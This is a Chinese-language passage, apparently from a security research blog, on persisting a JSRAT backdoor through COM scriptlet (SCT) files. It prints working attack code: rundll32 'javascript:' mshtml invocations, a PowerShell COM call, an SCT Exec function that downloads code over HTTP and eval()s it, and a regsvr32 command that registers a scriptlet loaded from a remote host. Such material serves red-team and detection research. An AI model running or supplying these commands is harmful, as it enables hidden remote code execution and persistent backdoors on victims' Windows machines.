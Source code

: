 **注：**

调用方式不唯一，还可通过以下方式

**a.rundll32.exe**

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Component.Backdoor");x.Exec();

```

**b.powershell**

```
$s=New-Object -COM "Component.Backdoor";$s.Exec()

```

### 2、我的方法

**(1)Backdoor.sct**

([https://github.com/3gstudent/SCTPersistence/blob/master/JSBackdoor/Backdoor.sct](https://github.com/3gstudent/SCTPersistence/blob/master/JSBackdoor/Backdoor.sct)) 直接在sct文件中写入JSRAT的启动代码

细节如下：

```
function Exec()
    {
        rat="rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication \";document.write();h=new%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");w=new%20ActiveXObject(\"WScript.Shell\");try{v=w.RegRead(\"HKCU\\\\Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Internet%20Settings\\\\ProxyServer\");q=v.split(\"=\")[1].split(\";\")[0];h.SetProxy(2,q);}catch(e){}h.Open(\"GET\",\"http://127.0.0.1/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}";
        new ActiveXObject("WScript.Shell").Run(rat,0,true);
    }

```

**(2)BackdoorTest.js**

([https://github.com/3gstudent/SCTPersistence/blob/master/JSBackdoor/BackdoorTest.js](https://github.com/3gstudent/SCTPersistence/blob/master/JSBackdoor/BackdoorTest.js)) 通过js脚本调用即可

当然也可以通过rundll32.exe调用，代码如下：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("JSRAT");x.Exec();

```

**(3)注册组件的方式**

将Backdoor.sct放在远程服务器上，通过regsvr32注册

```
regsvr32 /s /i:http://192.168.1.1/Backdoor.sct scrobj.dll

```
